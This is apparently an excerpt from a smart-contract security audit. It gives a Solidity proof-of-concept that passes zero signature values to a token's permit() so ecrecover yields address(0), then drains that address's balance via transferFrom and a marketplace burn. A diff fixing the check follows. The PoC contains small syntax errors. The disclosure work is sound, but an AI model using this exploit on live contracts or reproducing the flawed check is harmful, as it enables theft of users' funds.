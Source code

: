 ### Proof of Concept

```solidity
function attack(IZcToken zctoken) {
    zctoken.permit(
        address(0x0),
        address(this),
        type(uint).max,
        block.timestamp,
        uint8(0),  // using 0 for r,s,v returns address(0x0) from ecrecover()
        bytes32(0),
        bytes32(0)
    );
    assert(zctoken.allowance(address(0x0), address(this)), type(uint).max);

    uint amount = zctoken.balanceOf(address(0x0)

    zctoken.transferFrom(
        address(0x0),
        address(this),
        amount
    );

                                    
    // assumes attacker has previously acquired notional
    IMarketPlace(mp).burnZcTokenRemovingNotional(
        zctoken.protocol(),
        zctoken.underlying(),
        zctoken.maturity(),
        address(this),
        amount
    );
                                    
    // .. repeat until drained, then move on to next token
        
}
```

### Recommended Mitigation Steps

```diff
diff --git a/Creator/Erc20.sol b/Creator/Erc20.sol
index a1f72b0..8464626 100644
--- a/Creator/Erc20.sol
+++ b/Creator/Erc20.sol
@@ -162,7 +162,7 @@ contract Erc20 {
                 s
             );

-            if (recoveredAddress != address(0) && recoveredAddress != owner) {
+            if (recoveredAddress == address(0) || recoveredAddress != owner) {
                 revert Invalid(msg.sender, owner);
             }
```
